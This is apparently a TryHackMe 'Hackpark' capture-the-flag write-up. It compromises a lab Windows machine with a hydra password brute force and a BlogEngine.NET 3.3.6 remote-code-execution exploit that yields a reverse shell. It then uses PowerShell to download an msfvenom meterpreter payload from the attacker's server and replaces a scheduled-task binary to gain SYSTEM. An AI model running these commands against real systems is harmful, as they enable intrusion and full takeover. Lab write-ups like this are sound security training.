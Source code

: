 # Hackpark writeup
#pentest/tryhackme

We might have a user called admin. Can we find out their password using hydra?

First we need to set the proper placeholders in hydra. To do that we need to fetch the params that a form sends to the backend during the form submission.
To do that we can inspect a request in the browser and copy the params sent or use **burpsuite**, which is the easier way since everything is already URI encoded. 

```
__VIEWSTATE=sWJi%2BdMypRv71LwD%2F9gXl2L8IpgKwZ2%2B6MofLb%2FmAdco99zAYYas6uCzgQyqzKBne7sRgoJ9qIgiE7RLxaV3zEdaPH%2FztLdyquxXZderx%2BSlU%2BFerFlKcItbpGjvJ0fl4bQYEluiphNCAA4P%2BIqOlkElTybzDSTsuDwcchIhtQ1n7g%2Be15%2FLQqX8ETlQuUIGyFPtmi7xgvh0Ee3beGPhzEMcCYXbUm2sv3%2F6ZJUDamL0G6EAPVHCVToW%2BlEhO6n4ylp0jDoFpWDNoMnPJtxw9mquke%2FXLJ2WyV2s4iXdEBRcLhq9y3ldu92DSsHXe%2FyQC3lRjZlZEIAeIyEyno96KQt3MiyECICxU92b0ssdrVwS5w%2B0&__EVENTVALIDATION=u5wEm%2BGBspPtNUVxPasVfRL7S98lhvSzFf3SXTrg%2BnDvlSLQJY36AxIRhkuLjm8TooKerwOjaJGfJOYFR%2F%2F8bTcsJ%2FsSaZtJjWQLQht51g7oxLa6tnEYZk3BKIMMdQBV2EUnoJOwtoHrmQ16Sz55zN2IbwbcVI5i0xMM%2FS75MVn2HF32&ctl00%24MainContent%24LoginUser%24UserName=pennywise&ctl00%24MainContent%24LoginUser%24Password=nicole&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
```

Let’s set the placeholders now. We need to set **^USER^** for the field where we send the username, **^PASS^** for the field where we send the password and for the login button we need to set the state returned by the server if the login is invalid, which in this case is **“Login failed”**

```
__VIEWSTATE=sWJi%2BdMypRv71LwD%2F9gXl2L8IpgKwZ2%2B6MofLb%2FmAdco99zAYYas6uCzgQyqzKBne7sRgoJ9qIgiE7RLxaV3zEdaPH%2FztLdyquxXZderx%2BSlU%2BFerFlKcItbpGjvJ0fl4bQYEluiphNCAA4P%2BIqOlkElTybzDSTsuDwcchIhtQ1n7g%2Be15%2FLQqX8ETlQuUIGyFPtmi7xgvh0Ee3beGPhzEMcCYXbUm2sv3%2F6ZJUDamL0G6EAPVHCVToW%2BlEhO6n4ylp0jDoFpWDNoMnPJtxw9mquke%2FXLJ2WyV2s4iXdEBRcLhq9y3ldu92DSsHXe%2FyQC3lRjZlZEIAeIyEyno96KQt3MiyECICxU92b0ssdrVwS5w%2B0&__EVENTVALIDATION=u5wEm%2BGBspPtNUVxPasVfRL7S98lhvSzFf3SXTrg%2BnDvlSLQJY36AxIRhkuLjm8TooKerwOjaJGfJOYFR%2F%2F8bTcsJ%2FsSaZtJjWQLQht51g7oxLa6tnEYZk3BKIMMdQBV2EUnoJOwtoHrmQ16Sz55zN2IbwbcVI5i0xMM%2FS75MVn2HF32&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed
```

And putting everything together:

```shell
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.187.105 http-post-form "/Account/login.aspx:__VIEWSTATE=sWJi%2BdMypRv71LwD%2F9gXl2L8IpgKwZ2%2B6MofLb%2FmAdco99zAYYas6uCzgQyqzKBne7sRgoJ9qIgiE7RLxaV3zEdaPH%2FztLdyquxXZderx%2BSlU%2BFerFlKcItbpGjvJ0fl4bQYEluiphNCAA4P%2BIqOlkElTybzDSTsuDwcchIhtQ1n7g%2Be15%2FLQqX8ETlQuUIGyFPtmi7xgvh0Ee3beGPhzEMcCYXbUm2sv3%2F6ZJUDamL0G6EAPVHCVToW%2BlEhO6n4ylp0jDoFpWDNoMnPJtxw9mquke%2FXLJ2WyV2s4iXdEBRcLhq9y3ldu92DSsHXe%2FyQC3lRjZlZEIAeIyEyno96KQt3MiyECICxU92b0ssdrVwS5w%2B0&__EVENTVALIDATION=u5wEm%2BGBspPtNUVxPasVfRL7S98lhvSzFf3SXTrg%2BnDvlSLQJY36AxIRhkuLjm8TooKerwOjaJGfJOYFR%2F%2F8bTcsJ%2FsSaZtJjWQLQht51g7oxLa6tnEYZk3BKIMMdQBV2EUnoJOwtoHrmQ16Sz55zN2IbwbcVI5i0xMM%2FS75MVn2HF32&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"
...
[80][http-post-form] host: 10.10.187.105   login: admin   password: 1qaz2wsx
```

Nice, let’s login!

Cool, so we see they are using BlogEngine version 3.3.6.0, can we find an exploit for it?

```shell
kali@kali:~/local_server$ searchsploit "BlogEngine"
------------------------------------------------------------------------------------------------------------------------------ 
 Exploit Title                                                                                        |  Path
------------------------------------------------------------------------------------------------------------------------------ 
...
BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution                                    | aspx/webapps/46353.cs
...
------------------------------------------------------------------------------------------------------------------------------ 
Shellcodes: No Results

```

The exploit with the CVE can be found here: [BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution - ASPX webapps Exploit](https://www.exploit-db.com/exploits/46353)

Let’s leverage this. Start by downloading the script and changing it to contain your IP and port from your netcat listener.

```shell
kali@kali:~$ wget https://www.exploit-db.com/raw/46353 
--2020-06-23 18:00:32--  https://www.exploit-db.com/raw/46353
...
2020-06-23 18:00:32 (37.4 MB/s) - ‘46353’ saved [3502/3502]

kali@kali:~$ mv 46353 PostView.ascx

# Edit your IP and Post
kali@kali:~$ vim PostView.ascx
```

Now we need to start out netcat listener in another tab

```shell
kali@kali:~$ nc -nlvp 1234 # port you defined in your PostView.ascx script
```

Following the instructions from the script, we:

1. Edit an existing post and upload our file to this post
2. Save the file 
3. Visit `http://<machine-ip>/?theme=../../App_Data/files`
4. And we get our reverse shell!!!!

```shell
kali@kali:~$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.2.13.100] from (UNKNOWN) [10.10.211.173] 49232
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
whoami
c:\windows\system32\inetsrv>whoami
iis apppool\blog
```

Now that we have our reverse shell lets upgrade it to a full reverse shell. To best do that, lets use MSF again. Using msfvenom we can quickly create reverse handlers with hosts and ports baked in. To do that:

` msfvenom -p windows/meterpreter/reverse_tcp LHOST=[vpnIP] LPORT=[LPORT] -f exe > cool.exe`

Sweet, now we need to do a few things.

1. Create a python server to host our msfvenom payload

```shell
python3 -m http.server
```

2. Make the windows machine download this file onto C:\Windows\temp

```shell
# Our IP and the Python server port
powershell -c "Invoke-WebRequest -Uri 'http://10.2.13.100:8000/cool.exe' -OutFile 'C:\Windows\Temp\cool.exe'

# We should see something like this in our python server
10.10.211.173 - - [23/Jun/2020 18:28:29] "GET /cool.exe HTTP/1.1" 200 -
```

3. Time to start a reverse handler through metasploit!

```shell
$ msfconsole
msf5 > use exploit/multi/handler
msf5 > set PAYLOAD windows/meterpreter/reverse_tcp
msf5 > set LHOST tun0 # or our IP
msf5 > set LPORT 7777 # Port we specified on our msfvenom payload
msf5 > run
[*] Started reverse TCP handler on 10.2.13.100:7777
```

4. Back to the windows machine, let’s run our payload!

```shel
C:\Windows\Temp\cool.exe
```

5. And we should have a meterpreter session!

```shell
[*] Sending stage (176195 bytes) to 10.10.211.173
[*] Meterpreter session 1 opened (10.2.13.100:7777 -> 10.10.211.173:49364) at 2020-06-23 18:30:42 -0400

meterpreter >
```

**Privilege escalation time!**

Let’s download our great script [privilege-escalation-awesome-scripts-suite/winPEAS/winPEASbat at master · carlospolop/privilege-escalation-awesome-scripts-suite · GitHub](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASbat)

This script is a cool .bat that runs a scan through the machine looking for vulnerabilities. We can download it on our machine and upload it to the windows machine.
Again, we need to have our **Python Server running**.

```shell
powershell -c "Invoke-WebRequest -Uri 'http://10.2.13.100:8000/winPEAS.bat' -OutFile 'C:\Windows\Temp\winPEAS.bat'
# OR
upload winPEAS.bat # from your meterpreter shell
```

And now we run it:

```shell
C:\Windows\Temp\winPEAS.bat
# long long output
```

## So how do we go from here?

### WService, the WindowsScheduler
The first thing we look for is the processes running on the machine. Especially if we can find something called `WService.exe` which is the `WindowsScheduler`.
Now we know that we can something akin to cron jobs in Linux and we can figure out if we can exploit these scheduled jobs.

The path for this scheduler sits in: `C:/Program Files (x86)/SystemScheduler`, listing the files will show us potential things that are running periodically.
But how to be sure? Enter **Events**, that’s the diretory where our **log files** sit.

```shell
meterpreter > ls C:/Program Files (x86)/SystemScheduler/Events
...
20198415519.INI_LOG.txt # That's the one we are interested in

meterpreter > cat C:/Program Files (x86)/SystemScheduler/Events/20198415519.INI_LOG.txt
...
# many many Message.exe logs
# can we exploit it?
...
```

1. Let’s rename our Message.exe to Message.bak
2. Let’s rename our msfvenom to Message.exe and put it there
3. Wait a few seconds and we get a new meterpreter session
`powershell -c "Invoke-WebRequest -Uri 'http://10.2.13.100:8000/cool.exe' -OutFile "C:/'Program Files (x86)'/SystemScheduler/Message.exe"`
powershell -c "Invoke-WebRequest -Uri 'http://10.2.13.100:8000/cool.exe' -OutFile ‘C:/‘Program Files (x86)/SystemScheduler'

```shell
meterpreter > whoami
SYSTEM # wooooot

meterpreter > cat C:/Users/jeff/Desktop/user.txt
759bd8af507517bcfaede78a21a73e39

meterpreter > cat C:/Users/Administrator/Desktop/root.txt
7e13d97f05f7ceb9881a3eb3d78d3e72
```